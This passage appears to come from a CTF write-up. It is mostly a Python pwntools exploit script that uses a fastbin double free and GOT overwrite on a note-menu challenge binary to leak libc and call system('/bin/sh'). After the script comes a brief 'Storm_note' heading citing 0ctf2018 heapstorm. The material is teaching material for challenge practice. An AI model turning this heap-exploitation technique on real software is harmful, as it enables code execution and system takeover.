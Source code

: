 ```python

putchargot = 0x601020
freegot = 0x601018

addnote(0x60,'aaa')
addnote(0x60,'bbb')
addnote(0x60,'ccc')
addnote(0x70,'ddd')
addnote(0x60,'eee') #4
addnote(0x60,'fff') #5
addnote(0x60,'/bin/sh\x00') #6
#addnote(0x79,'ggg')
#delnote(3)

delnote(1)
delnote(2)
delnote(1)
#debug()
addnote(0x60,p64(0x6010d0))
addnote(0x60,'ddd')
addnote(0x60,'eee')

addnote(0x60,p64(freegot)+p64(0x60)+p64(putchargot))

editnote(4,p64(putplt))

delnote(5)

#debug()
leakaddr = u64(io.recv(6).ljust(8,'\x00'))
libcbase = leakaddr - libc.symbols['putchar']
print hex(leakaddr),hex(libcbase)
sysaddr = libcbase + libc.symbols['system']

editnote(4,p64(sysaddr))

delnote(6)
#delnote(0)
io.interactive()
io.recv()
```

## Storm_note

0ctf2018 heapstorm  

就不详细写了。  



checksec:

![5cab4585c9e62](https://i.loli.net/2019/04/08/5cab4585c9e62.png)
